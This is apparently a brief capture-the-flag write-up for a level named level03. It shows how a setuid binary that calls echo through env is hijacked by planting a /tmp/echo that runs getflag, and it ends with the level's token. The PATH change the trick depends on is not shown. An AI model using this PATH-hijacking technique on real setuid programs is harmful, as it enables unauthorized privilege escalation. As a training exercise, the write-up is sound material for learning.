 we have a level03 file, it have some specific rights access
```-rwsr-sr-x```
when we execute it, we have this message
./level03
```Exploit me```
first, i've tried to exploit it with nm ./level03 to see what functions are used, but i've don't get a lot of things interessting. So i've made it with strings ./level03 and i've seen more interesting stuff
```/usr/bin/env echo Exploit me```
So you have to replace the echo function with your own (a getflag to)
```echo getflag > /tmp/echo```
```chmod 777 /tmp/echo```
```./level03```
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus